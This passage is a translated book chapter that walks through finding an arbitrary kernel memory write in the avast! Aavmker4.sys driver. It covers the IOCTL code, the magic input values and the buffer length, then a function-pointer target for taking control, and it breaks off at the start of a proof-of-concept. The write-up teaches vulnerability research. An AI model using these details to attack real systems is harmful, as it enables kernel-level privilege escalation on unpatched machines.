





# 第六章。一个内核统治一切

### 注意

*2008 年 3 月 8 日星期六*

*亲爱的日记*，

在花费时间审计开源内核并找到一些有趣的错误后，我开始思考是否能在 Microsoft Windows 驱动程序中找到一个错误。Windows 有很多第三方驱动程序可用，因此选择几个来探索并不容易。我最终选择了一些杀毒产品，因为它们通常是寻找错误的理想目标.^([57]) 我访问了 VirusTotal^([58]) 并在其列表中选择了第一个我认识的杀毒产品：ALWIL Software 的 avast!。这最终证明是一个偶然的决定。

### 注意

*2010 年 6 月 1 日，ALWIL Software 更名为 AVAST Software*。

# 6.1 漏洞发现

我使用以下步骤来发现漏洞：

### 注意

*本章中描述的漏洞影响所有由 avast! Professional 4.7\. 支持的 Microsoft Windows 平台。本章中使用的平台是 Windows XP SP3 32 位的默认安装*。

+   第一步：为内核调试准备 VMware 虚拟机。

+   第二步：生成由 avast! 创建的驱动程序和设备对象列表

+   第三步：检查设备安全设置。

+   第四步：列出 IOCTLS。

+   第五步：找到用户控制的输入值。

+   第六步：逆向工程 IOCTL 处理程序。

## 第一步：为内核调试准备 VMware 虚拟机

首先，我设置了一个 Windows XP VMware^([60]) 虚拟机系统，我使用 WinDbg.^([61]) 进行远程内核调试。必要的步骤在 B.3 节中描述。

## 第二步：生成由 avast! 创建的驱动程序和设备对象列表

在 VMware 虚拟机系统中下载并安装了最新的 avast! Professional^([62]) 版本后，我使用 DriverView^([63]) 生成 avast! 加载的驱动程序列表。

DriverView 的一个好处是它使得识别第三方驱动程序变得容易。如图 6-1 所示，avast! 加载了四个驱动程序。我选择了列表中的第一个，称为 *Aavmker4.sys*，并使用 IDA Pro^([64]) 生成该驱动程序的设备对象列表。

### 注意

驱动程序可以在任何时间通过调用*`IoCreateDevice`* 或 *`IoCreateDeviceSecure`* 创建表示设备或驱动程序接口的设备对象。^([65])



图 6-1. DriverView 中的 avast! 驱动程序列表

在 IDA 反汇编驱动程序后，我开始阅读驱动程序初始化例程的汇编代码，称为`DriverEntry()`.^([66])

```
[..]
.text:000105D2 ; const WCHAR aDeviceAavmker4
`.text:000105D2 aDeviceAavmker4:                        ; DATA XREF: DriverEntry+12`
`.text:000105D2                 unicode 0, <\Device\AavmKer4>,0`
[..]
.text:00010620 ; NTSTATUS __stdcall DriverEntry(PDRIVER_OBJECT DriverObject, →
PUNICODE_STRING RegistryPath)
.text:00010620                 public DriverEntry
.text:00010620 DriverEntry     proc near
.text:00010620
.text:00010620 SymbolicLinkName= UNICODE_STRING ptr −14h
.text:00010620 DestinationString= UNICODE_STRING ptr −0Ch
.text:00010620 DeviceObject    = dword ptr −4
.text:00010620 DriverObject    = dword ptr  8
.text:00010620 RegistryPath    = dword ptr  0Ch
.text:00010620
.text:00010620                 push    ebp
.text:00010621                 mov     ebp, esp
.text:00010623                 sub     esp, 14h
.text:00010626                 push    ebx
.text:00010627                 push    esi
.text:00010628                 mov     esi, ds:RtlInitUnicodeString
.text:0001062E                 push    edi
.text:0001062F                 lea     eax, [ebp+DestinationString]
`.text:00010632                 push    offset aDeviceAavmker4 ; SourceString`
.text:00010637                 push    eax             ; DestinationString
.text:00010638                 call    esi ; RtlInitUnicodeString
.text:0001063A                 mov     edi, [ebp+DriverObject]
.text:0001063D                 lea     eax, [ebp+DeviceObject]
.text:00010640                 xor     ebx, ebx
.text:00010642                 push    eax             ; DeviceObject
.text:00010643                 push    ebx             ; Exclusive
.text:00010644                 push    ebx             ; DeviceCharacteristics
.text:00010645                 lea     eax, [ebp+DestinationString]
.text:00010648                 push    22h             ; DeviceType
.text:0001064A                 push    eax             ; DeviceName
.text:0001064B                 push    ebx             ; DeviceExtensionSize
.text:0001064C                 push    edi             ; DriverObject
`.text:0001064D                 call    ds:IoCreateDevice`
.text:00010653                 cmp     eax, ebx
.text:00010655                 jl      loc_1075E
[..]
```

在 `DriverEntry()` 函数中，使用 `IoCreateDevice()` 函数在地址 `.text:0001064D` 处创建了一个名为 `\Device\AavmKer4` 的设备（见 `.text:00010632` 和 `.text:000105D2`）。`DriverEntry()` 的示例汇编代码可以翻译成以下 C 代码：

```
[..]
RtlInitUnicodeString (&DestinationString, &L"\\Device\\AavmKer4");
retval = IoCreateDevice (DriverObject, 0, &DestinationString,
 0x22, 0, 0, &DeviceObject);
[..]
```

## 第 3 步：检查设备安全设置

我随后使用 WinObj 检查了 `AavmKer4` 设备的安全设置（见图 6-2）。^([67])


图 6-2. 在 WinObj 中导航到设备 `AavmKer4` 的安全设置

在 WinObj 中查看设备的安全设置时，我右键单击设备名称，从选项列表中选择**属性**，然后选择**安全**选项卡。设备对象允许每个系统用户（ Everyone 组）从设备中读取或写入（见图 6-3）。这意味着系统的每个用户都可以向驱动程序实现的 IOCTL 发送数据，这真是太好了——这使得这个驱动程序成为一个有价值的攻击目标！

## 第 4 步：列出 IOCTL

一个 Windows 用户空间应用程序必须调用 `DeviceIoControl()` 来向内核驱动程序发送 IOCTL 请求。此类对 `DeviceIoControl()` 的调用会导致 Windows 的 I/O 管理器创建一个 `IRP_MJ_DEVICE_CONTROL` 请求，并将其发送到最顶层的驱动程序。驱动程序实现一个特殊的分派例程来处理 `IRP_MJ_DEVICE_CONTROL` 请求，该例程通过名为 `MajorFunction[]` 的数组进行引用。此数组是 `DRIVER_OBJECT` 数据结构的一个元素，可以在 Windows 驱动程序包的 *ntddk.h* 中找到.^([68]) 为了节省空间，我从以下代码中移除了注释。



图 6-3. 查看设备 `\Device\AavmKer4` 的安全设置

```
[..]
typedef struct _DRIVER_OBJECT {
    CSHORT Type;
    CSHORT Size;
    PDEVICE_OBJECT DeviceObject;
    ULONG Flags;
    PVOID DriverStart;
    ULONG DriverSize;
    PVOID DriverSection;
    PDRIVER_EXTENSION DriverExtension;
    UNICODE_STRING DriverName;
    PUNICODE_STRING HardwareDatabase;
    PFAST_IO_DISPATCH FastIoDispatch;
    PDRIVER_INITIALIZE DriverInit;
    PDRIVER_STARTIO DriverStartIo;
    PDRIVER_UNLOAD DriverUnload;
    `PDRIVER_DISPATCH MajorFunction[IRP_MJ_MAXIMUM_FUNCTION + 1];`
} DRIVER_OBJECT;
[..]
```

下面定义了 `MajorFunction[]` 数组的元素（也来自 *ntddk.h*）：

```
[..]
#define IRP_MJ_CREATE                   0x00
#define IRP_MJ_CREATE_NAMED_PIPE        0x01
#define IRP_MJ_CLOSE                    0x02
#define IRP_MJ_READ                     0x03
#define IRP_MJ_WRITE                    0x04
#define IRP_MJ_QUERY_INFORMATION        0x05
#define IRP_MJ_SET_INFORMATION          0x06
#define IRP_MJ_QUERY_EA                 0x07
#define IRP_MJ_SET_EA                   0x08
#define IRP_MJ_FLUSH_BUFFERS            0x09
#define IRP_MJ_QUERY_VOLUME_INFORMATION 0x0a
#define IRP_MJ_SET_VOLUME_INFORMATION   0x0b
#define IRP_MJ_DIRECTORY_CONTROL        0x0c
#define IRP_MJ_FILE_SYSTEM_CONTROL      0x0d
`#define IRP_MJ_DEVICE_CONTROL           0x0e`
#define IRP_MJ_INTERNAL_DEVICE_CONTROL  0x0f
#define IRP_MJ_SHUTDOWN                 0x10
#define IRP_MJ_LOCK_CONTROL             0x11
#define IRP_MJ_CLEANUP                  0x12
#define IRP_MJ_CREATE_MAILSLOT          0x13
#define IRP_MJ_QUERY_SECURITY           0x14
#define IRP_MJ_SET_SECURITY             0x15
#define IRP_MJ_POWER                    0x16
#define IRP_MJ_SYSTEM_CONTROL           0x17
#define IRP_MJ_DEVICE_CHANGE            0x18
#define IRP_MJ_QUERY_QUOTA              0x19
#define IRP_MJ_SET_QUOTA                0x1a
#define IRP_MJ_PNP                      0x1b
#define IRP_MJ_PNP_POWER                IRP_MJ_PNP     // Obsolete....
#define IRP_MJ_MAXIMUM_FUNCTION         0x1b
[..]
```

要列出驱动程序实现的 IOCTL，我必须找到驱动程序的 IOCTL 分派例程。如果我能访问驱动程序的 C 代码，这将会很容易，因为我知道分派例程的分配通常看起来像这样：

```
DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IOCTL_dispatch_routine;
```

不幸的是，我没有访问到 avast! *Aavmker4.sys* 驱动程序的源代码。我如何仅使用 IDA Pro 提供的反汇编代码来找到分派分配呢？

为了回答这个问题，我需要更多关于 `DRIVER_OBJECT` 数据结构的信息。我将 WinDbg 连接到 VMware 虚拟机系统，并使用 `dt` 命令（见 B.2 节中关于以下调试命令的详细描述）来显示有关结构的信息：

```
kd> `.sympath SRV*c:\WinDBGSymbols*http://msdl.microsoft.com/download/symbols`
kd> `.reload`
[..]
kd> `dt -v _DRIVER_OBJECT .`
nt!_DRIVER_OBJECT
struct _DRIVER_OBJECT, 15 elements, 0xa8 bytes
   +0x000 Type             : Int2B
   +0x002 Size             : Int2B
   +0x004 DeviceObject     :
   +0x008 Flags            : Uint4B
   +0x00c DriverStart      :
   +0x010 DriverSize       : Uint4B
   +0x014 DriverSection    :
   +0x018 DriverExtension  :
   +0x01c DriverName       : struct _UNICODE_STRING, 3 elements, 0x8 bytes
      +0x000 Length           : Uint2B
      +0x002 MaximumLength    : Uint2B
      +0x004 Buffer           : Ptr32 to Uint2B
   +0x024 HardwareDatabase :
   +0x028 FastIoDispatch   :
   +0x02c DriverInit       :
   +0x030 DriverStartIo    :
   +0x034 DriverUnload     :
   `+0x038 MajorFunction    : [28]`
```

调试器输出显示，`MajorFunction[]` 数组从结构偏移 `0x38` 开始。在查看 Windows 驱动器工具包的 *ntddk.h* 头文件后，我知道 `IRP_MJ_DEVICE_CONTROL` 位于 `MajorFunction[]` 的偏移 `0x0e`，并且该数组的元素大小是一个指针（32 位平台上的 4 个字节）。

因此，赋值可以表示为以下形式：

```
In C: DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IOCTL_dispatch_routine;
Offsets         : DriverObject   +   0x38  +  0x0e * 4   = IOCTL_dispatch_routine;
Simplified form : DriverObject   +   0x70                = IOCTL_dispatch_routine;
```

在 Intel 汇编中表达这个赋值的方法不计其数，但在 avast! 驱动程序代码中我找到了这些指令：

```
[..]
.text:00010748                 mov     eax, [ebp+DriverObject]
[..]
.text:00010750                 mov     dword ptr [eax+70h], offset sub_1098C
[..]
```

在地址 `.text:00010748`，一个 `DRIVER_OBJECT` 指针存储在 `EAX` 中。然后在地址 `.text:00010750`，IOCTL 调度例程的函数指针被分配给 `MajorFunction[IRP_MJ_DEVICE_CONTROL]`。

```
Assignment in C: DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = sub_1098c;
Offsets        : DriverObject + 0x70                                = sub_1098c;
```

我终于找到了驱动程序的 IOCTL 调度例程：`sub_1098C`！借助调试器也可以找到 IOCTL 调度例程：

```
kd> `!drvobj AavmKer4 7`
Driver object (86444f38) is for:
*** ERROR: Symbol file could not be found.  Defaulted to export
 symbols for Aavmker4.SYS -
 \Driver\Aavmker4
Driver Extension List: (id , addr)

Device Object list:
863a9150

DriverEntry:   f792d620 Aavmker4
DriverStartIo: 00000000
DriverUnload:  00000000
AddDevice:     00000000

Dispatch routines:
[00] IRP_MJ_CREATE                      f792d766         Aavmker4+0x766
[01] IRP_MJ_CREATE_NAMED_PIPE           f792d766         Aavmker4+0x766
[02] IRP_MJ_CLOSE                       f792d766         Aavmker4+0x766
[03] IRP_MJ_READ                        f792d766         Aavmker4+0x766
[04] IRP_MJ_WRITE                       f792d766         Aavmker4+0x766
[05] IRP_MJ_QUERY_INFORMATION           f792d766         Aavmker4+0x766
[06] IRP_MJ_SET_INFORMATION             f792d766         Aavmker4+0x766
[07] IRP_MJ_QUERY_EA                    f792d766         Aavmker4+0x766
[08] IRP_MJ_SET_EA                      f792d766         Aavmker4+0x766
[09] IRP_MJ_FLUSH_BUFFERS               f792d766         Aavmker4+0x766
[0a] IRP_MJ_QUERY_VOLUME_INFORMATION    f792d766         Aavmker4+0x766
[0b] IRP_MJ_SET_VOLUME_INFORMATION      f792d766         Aavmker4+0x766
[0c] IRP_MJ_DIRECTORY_CONTROL           f792d766         Aavmker4+0x766
[0d] IRP_MJ_FILE_SYSTEM_CONTROL         f792d766         Aavmker4+0x766
`[0e] IRP_MJ_DEVICE_CONTROL              f792d98c         Aavmker4+0x98c`
[..]
```

WinDbg 的输出显示，`IRP_MJ_DEVICE_CONTROL` 调度例程位于地址 `Aavmker4+0x98c`。

在找到调度例程之后，我在该函数中搜索了已实现的 IOCTL。IOCTL 调度例程具有以下原型^([69])。

```
NTSTATUS
  DispatchDeviceControl(
    __in struct _DEVICE_OBJECT  *DeviceObject,
    __in struct _IRP  *Irp
    )
  { ... }
```

第二个函数参数是指向一个 *I/O 请求包* (*IRP*) 结构的指针。IRP 是 Windows I/O 管理器用来与驱动程序通信以及允许驱动程序之间相互通信的基本结构。这个结构传输用户提供的 IOCTL 数据以及请求的 IOCTL 代码^([70])。

我随后查看了调度例程的反汇编代码，以生成 IOCTL 列表：

```
[..]
.text:0001098C ; int __stdcall sub_1098C(int, PIRP Irp)
.text:0001098C sub_1098C       proc near               ; DATA XREF: DriverEntry+130
[..]
`.text:000109B2                 mov     ebx, [ebp+Irp]  ; ebx = address of IRP`
`.text:000109B5                 mov     eax, [ebx+60h]`
[..]
```

IRP 结构的指针存储在 `.text:000109B2` 地址的 `EBX` 中，这是 IOCTL 调度例程的位置。然后，一个位于 IRP 结构偏移 `0x60` 的值被引用（见 `.text:000109B5`）。

```
kd> `dt -v -r 3 _IRP`
nt!_IRP
struct _IRP, 21 elements, 0x70 bytes
  +0x000 Type             : ??
  +0x002 Size             : ??
  +0x004 MdlAddress       : ????
  +0x008 Flags            : ??
[..]
  `+0x040 Tail             : union __unnamed, 3 elements, 0x30 bytes`
     +0x000 Overlay          : struct __unnamed, 8 elements, 0x28 bytes
        +0x000 DeviceQueueEntry : struct _KDEVICE_QUEUE_ENTRY, 3 elements, 0x10 bytes
        +0x000 DriverContext    : [4] ????
        +0x010 Thread           : ????
        +0x014 AuxiliaryBuffer  : ????
        +0x018 ListEntry        : struct _LIST_ENTRY, 2 elements, 0x8 bytes
        `+0x020 CurrentStackLocation : ????`
[..]
```

WinDbg 的输出显示，IRP 结构成员 `CurrentStackLocation` 位于偏移 `0x60`。这个结构在 Windows 驱动器工具包的 *ntddk.h* 中定义：

```
[..]
//
// I/O Request Packet (IRP) definition
//
typedef struct _IRP {
[..]
        `//`
        `// Current stack location - contains a pointer to the current`
        `// IO_STACK_LOCATION structure in the IRP stack.  This field`
        `// should never be directly accessed by drivers.  They should`
        `// use the standard functions.`
        `//`

        `struct _IO_STACK_LOCATION *CurrentStackLocation;`
[..]
```

`_IO_STACK_LOCATION` 结构的布局如下（见 Windows 驱动器工具包中的 *ntddk.h*）：

```
[..]
`typedef struct _IO_STACK_LOCATION {`
    UCHAR MajorFunction;
    UCHAR MinorFunction;
    UCHAR Flags;
    UCHAR Control;
[..]
        //
        // System service parameters for:  NtDeviceIoControlFile
        //
        // Note that the user's output buffer is stored in the
        // UserBuffer field
        // and the user's input buffer is stored in the SystemBuffer
        // field.
        //

        struct {
            `ULONG OutputBufferLength;`
            `ULONG POINTER_ALIGNMENT InputBufferLength;`
            `ULONG POINTER_ALIGNMENT IoControlCode;`
            PVOID Type3InputBuffer;
        } DeviceIoControl;
[..]
```

除了请求的 IOCTL 的 `IoControlCode` 之外，这个结构还包含有关输入和输出缓冲区大小的信息。现在我对 `_IO_STACK_LOCATION` 结构有了更多信息，我再次查看了反汇编代码：

```
[..]
.text:0001098C ; int __stdcall sub_1098C(int, PIRP Irp)
.text:0001098C sub_1098C     proc near               ; DATA XREF: DriverEntry+130
[..]
.text:000109B2        mov    ebx, [ebp+Irp]  ; ebx = address of IRP
`.text:000109B5        mov    eax, [ebx+60h]  ; eax = address of CurrentStackLocation`
`.text:000109B8        mov    esi, [eax+8]    ; ULONG InputBufferLength`
.text:000109BB        mov    [ebp+var_1C], esi ; save InputBufferLength in var_1C
`.text:000109BE        mov    edx, [eax+4]    ; ULONG OutputBufferLength`
.text:000109C1        mov    [ebp+var_3C], edx ; save OutputBufferLength in var_3C
`.text:000109C4        mov    eax, [eax+0Ch]  ; ULONG IoControlCode`
`.text:000109C7        mov    ecx, 0B2D6002Ch ; ecx = 0xB2D6002C`
`.text:000109CC        cmp    eax, ecx        ; compare 0xB2D6002C with IoControlCode`
.text:000109CE        ja     loc_10D15
[..]
```

如我之前提到的，在地址`.text:000109B5`，存储了指向`_IO_STACK_LOCATION`的指针，然后在地址`.text:000109B8`存储了`InputBufferLength`在`ESI`中。在`.text:000109BE`，`OutputBufferLength`存储在`EDX`中，在`.text:000109C4`，`IoControlCode`存储在`EAX`中。稍后，请求的 IOCTL 代码存储在`EAX`中，并与值`0xB2D6002C`（见地址`.text:000109C7`和`.text:000109CC`）进行比较。嘿，我找到了驱动程序的第一个有效 IOCTL 代码！我在函数中搜索了所有与请求的 IOCTL 代码在`EAX`中比较的值，并得到了*Aavmker4.sys*支持的 IOCTL 列表。

## 第 5 步：查找用户控制的输入值

在我生成了所有支持的 IOCTL 列表之后，我试图定位包含用户提供的 IOCTL 输入数据的缓冲区。所有`IRP_MJ_DEVICE_CONTROL`请求都提供输入缓冲区和输出缓冲区。系统描述这些缓冲区的方式取决于*数据传输类型*。传输类型存储在 IOCTL 代码本身中。在 Microsoft Windows 中，IOCTL 代码值通常使用`CTL_CODE`宏创建。71] 这里是*ntddk.h*的另一个摘录：

```
[..]
//
// Macro definition for defining IOCTL and FSCTL function control codes.  Note
// that function codes 0-2047 are reserved for Microsoft Corporation, and
// 2048-4095 are reserved for customers.
//

`#define CTL_CODE( DeviceType, Function, Method, Access ) (                 \`
    `((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method) \`
`)`

[..]

//
// Define the method codes for how buffers are passed for I/O and FS controls
//

#define METHOD_BUFFERED                 0
#define METHOD_IN_DIRECT                1
#define METHOD_OUT_DIRECT               2
#define METHOD_NEITHER                  3
[..]
```

使用`CTL_CODE`宏的`Method`参数指定传输类型。我编写了一个小工具来揭示*Aavmker4.sys*的 IOCTL 使用了哪种数据传输类型：

示例 6-1. 我编写的一个小工具（`IOCTL_method.c`），用于展示*Aavmker4.sys*的 IOCTL 使用了哪种数据传输类型。

```
01    #include <windows.h>
02    #include <stdio.h>
03
04    int
05    main (int argc, char *argv[])
06    {
07        unsigned int  method  = 0;
08        unsigned int  code    = 0;
09
10        if (argc != 2) {
11           fprintf (stderr, "Usage: %s <IOCTL code>\n", argv[0]);
12           return 1;
13        }
14
15        code = strtoul (argv[1], (char **) NULL, 16);
16        method = code & 3;
17
18        switch (method) {
19           case 0:
20              printf ("METHOD_BUFFERED\n");
21              break;
22           case 1:
23              printf ("METHOD_IN_DIRECT\n");
24              break;
25           case 2:
26              printf ("METHOD_OUT_DIRECT\n");
27              break;
28           case 3:
29              printf ("METHOD_NEITHER\n");
30              break;
31           default:
32              fprintf (stderr, "ERROR: invalid IOCTL data transfer method\n");
33              break;
34        }
35
36        return 0;
37    }
```

然后我用 Visual Studio 的命令行 C 编译器（`cl`）编译了这个工具：

```
C:\BHD>`cl /nologo IOCTL_method.c`
IOCTL_method.c
```

以下输出显示了示例 6-1 中的工具在运行：

```
C:\BHD>`IOCTL_method.exe B2D6002C`
METHOD_BUFFERED
```

因此，驱动程序使用`METHOD_BUFFERED`传输类型来描述 IOCTL 请求的输入和输出缓冲区。根据 Windows 驱动程序套件中的缓冲区描述，使用`METHOD_BUFFERED`传输类型的 IOCTL 的输入缓冲区可以在`Irp->AssociatedIrp.SystemBuffer`中找到。

下面是*Aavmker4.sys*反汇编中对输入缓冲区引用的一个示例：

```
[..]
.text:00010CF1                 mov     eax, [ebx+0Ch]  ; ebx = address of IRP
.text:00010CF4                 mov     eax, [eax]
[..]
```

在这个例子中，`EBX`持有 IRP 结构的指针。在地址`.text:00010CF1`，引用了 IRP 结构成员的偏移量`0x0c`。

```
kd> `dt -v -r 2 _IRP`
nt!_IRP
struct _IRP, 21 elements, 0x70 bytes
   +0x000 Type             : ??
   +0x002 Size             : ??
   +0x004 MdlAddress       : ????
   +0x008 Flags            : ??
   `+0x00c AssociatedIrp    : union __unnamed, 3 elements, 0x4 bytes`
      +0x000 MasterIrp        : ????
      +0x000 IrpCount         : ??
      `+0x000 SystemBuffer     : ????`
[..]
```

WinDbg 的输出显示`AssociatedIrp`位于这个偏移量（`IRP->AssociatedIrp`）。在地址`.text:00010CF4`，对 IOCTL 调用的输入缓冲区进行了引用并存储在`EAX`（`Irp->AssociatedIrp.SystemBuffer`）。既然我已经找到了支持的 IOCTL 以及 IOCTL 输入数据，我就开始寻找 bug。

## 第 6 步：逆向工程 IOCTL 处理程序

为了找到可能的安全缺陷，我一次审计一个 IOCTL 的处理程序代码，同时跟踪提供的输入数据。当我遇到 IOCTL 代码`0xB2D60030`时，我发现了一个微小的 bug。

如果用户空间应用程序请求 IOCTL 代码`0xB2D60030`，则执行以下代码：

```
[..]
.text:0001098C ; int __stdcall sub_1098C(int, PIRP Irp)
.text:0001098C sub_1098C       proc near               ; DATA XREF: DriverEntry+130
[..]
`.text:00010D28                 cmp     eax, 0B2D60030h ; IOCTL-Code == 0xB2D60030 ?`
.text:00010D2D                 jz      short loc_10DAB ; if so -> loc_10DAB
[..]
```

如果请求的 IOCTL 代码与`0xB2D60030`（见`.text:00010D28`）匹配，则执行地址`.text:00010DAB`（`loc_10DAB`）处的汇编代码：

```
[..]
.text:000109B8            mov   esi, [eax+8]       ; ULONG InputBufferLength
`.text:000109BB            mov   [ebp+var_1C], esi`
[..]
.text:00010DAB loc_10DAB:                          ; CODE XREF: sub_1098C+3A1
`.text:00010DAB            xor   edi, edi           ; EDI = 0`
.text:00010DAD            cmp   byte_1240C, 0
.text:00010DB4            jz    short loc_10DC9
[..]
.text:00010DC9 loc_10DC9:                          ; CODE XREF: sub_1098C+428
`.text:00010DC9            mov   esi, [ebx+0Ch]     ; Irp->AssociatedIrp.SystemBuffer`
`.text:00010DCC            cmp   [ebp+var_1C], 878h ; input data length == 0x878 ?`
.text:00010DD3            jz    short loc_10DDF    ; if so -> loc_10DDF
[..]
```

在地址`.text:00010DAB EDI`处设置为 0。`EBX`寄存器持有 IRP 结构的指针，在地址`.text:00010DC9`处将输入缓冲区数据的指针存储在`ESI`中（`Irp->AssociatedIrp.SystemBuffer`）。

在调度例程的开始，将请求的`InputBufferLength`存储在堆栈变量`var_1c`中（见`.text:000109BB`）。然后，将地址`.text:00010DCC`处的输入数据长度与值`0x878`（见图 6-4）进行比较。


图 6-4. IDA Pro 中易受攻击的代码路径的图形视图，第一部分

如果数据长度等于`0x878`，则进一步处理由`ESI`指向的用户可控输入数据：

```
[..]
.text:00010DDF loc_10DDF:                     ; CODE XREF: sub_1098C+447
.text:00010DDF        mov   [ebp+var_4], edi
`.text:00010DE2        cmp   [esi], edi        ; ESI == input data`
.text:00010DE4        jz    short loc_10E34   ; if input data == NULL -> loc_10E34
[..]
`.text:00010DE6        mov   eax, [esi+870h]   ; ESI and EAX`
 `are pointing to the →`
                                                `input data`
`.text:00010DEC        mov   [ebp+var_48], eax ; a pointer to user controlled data →`
                                                `is stored in var_48`
`.text:00010DEF        cmp   dword ptr [eax], 0D0DEAD07h  ; validation of input data`
.text:00010DF5        jnz   short loc_10E00
[..]
`.text:00010DF7        cmp   dword ptr [eax+4], 10BAD0BAh ; validation of input data`
.text:00010DFE        jz    short loc_10E06
[..]
```

地址`.text:00010DE2`处的代码检查输入数据是否等于 NULL。如果输入数据不是 NULL，则从该数据中提取一个指针，存储在`[user_data+0x870]`，并存储在`EAX`中（见`.text:00010DE6`）。此指针值存储在堆栈变量`var_48`中（见`.text:00010DEC`）。然后执行检查，看由`EAX`指向的数据是否以值`0xD0DEAD07`和`0x10BAD0BA`开头（见`.text:00010DEF`和`.text:00010DF7`）。如果是这样，则继续解析输入数据：

```
[..]
.text:00010E06 loc_10E06:                              ; CODE XREF: sub_1098C+472
.text:00010E06                 xor     edx, edx
.text:00010E08                 mov     eax, [ebp+var_48]
.text:00010E0B                 mov     [eax], edx
.text:00010E0D                 mov     [eax+4], edx
`.text:00010E10                 add     esi, 4         ; source address`
`.text:00010E13                 mov     ecx, 21Ah      ; length`
`.text:00010E18                 mov     edi, [eax+18h] ; destination address`
`.text:00010E1B                 rep movsd              ; memcpy()`
[..]
```

地址`.text:00010E1B`处的`rep movsd`指令代表一个`memcpy()`函数。因此`ESI`持有源地址，`EDI`持有目标地址，`ECX`持有复制操作的长度的值。`ECX`被分配了值`0x21a`（见`.text:00010E13`）。`ESI`指向用户可控的 IOCTL 数据（见`.text:00010E10`），而`EDI`也是从由`EAX`指向的用户可控数据派生出来的（见`.text:00010E18`和图 6-5）。


图 6-5. IDA Pro 中易受攻击的代码路径的图形视图，第二部分

这里有一些伪 C 代码，用于那个`memcpy()`调用：

```
memcpy ([EAX+0x18], ESI + 4, 0x21a * 4);
```

或者，用更抽象的话来说：

```
memcpy (user_controlled_address, user_controlled_data, 0x868);
```

因此，可以将`0x868`字节（`0x21a * 4`字节，因为`rep movsd`指令从一个位置复制 DWORD 到另一个位置）的用户可控数据写入用户或内核空间中的任意用户可控地址。太棒了！

漏洞的解剖结构，如图 6-6 图 6-6. 从 IOCTL 请求到内存损坏的漏洞概述所示，如下：

1.  使用`AavmKer4`设备向内核驱动程序*Aavmker4.sys*发送了 IOCTL 请求(`0xB2D60030`)。

1.  驱动程序代码检查 IOCTL 输入数据长度是否等于值`0x878`。如果是，则进行步骤 3。

    

    图 6-6. 从 IOCTL 请求到内存损坏的漏洞概述

1.  驱动程序检查用户控制的 IOCTL 输入数据是否包含值`0xD0DEAD07`和`0x10BAD0BA`。如果是，则进行步骤 4。

1.  执行了错误的`memcpy()`调用。

1.  内存被损坏。

# 6.2 漏洞利用

为了控制`EIP`，我首先必须找到一个合适的覆盖目标地址。在搜索 IOCTL 调度例程时，我找到了两个调用函数指针的地方：

```
[..]
.text:00010D8F            push    2               ; _DWORD
.text:00010D91            push    1               ; _DWORD
.text:00010D93            push    1               ; _DWORD
.text:00010D95            push    dword ptr [eax] ; _DWORD
.text:00010D97            call    KeGetCurrentThread
.text:00010D9C            push    eax             ; _DWORD
`.text:00010D9D            call    dword_12460     ; the function pointer is called`
.text:00010DA3            mov     [ebx+18h], eax
.text:00010DA6            jmp     loc_10F04
[..]
.text:00010DB6            push    2               ; _DWORD
.text:00010DB8            push    1               ; _DWORD
.text:00010DBA            push    1               ; _DWORD
.text:00010DBC            push    edi             ; _DWORD
.text:00010DBD            call    KeGetCurrentThread
.text:00010DC2            push    eax             ; _DWORD
`.text:00010DC3            call    dword_12460     ; the function pointer is called`
[..]
`.data:00012460 ; int (__stdcall *dword_12460)(_DWORD,`
 `_DWORD, _DWORD, _DWORD, _DWORD)`
`.data:00012460 dword_12460     dd 0               ; the function pointer is declared`
[..]
```

在`.data:00012460`处声明的函数指针在调度例程的`.text:00010D9D`和`.text:00010DC3`处被调用。为了控制`EIP`，我只需覆盖这个函数指针并等待它被调用。我编写了以下 POC 代码来操作函数指针：

示例 6-2. 我编写的用于操作`.data:00012460`处函数指针的 POC 代码(*poc.c*)

```
01    #include <windows.h>
 02    #include <winioctl.h>
 03    #include <stdio.h>
 04    #include <psapi.h>
 05
 06    #define IOCTL            0xB2D60030  // vulnerable IOCTL
 07    #define INPUTBUFFER_SIZE 0x878       // input data length
 08
 09    __inline void
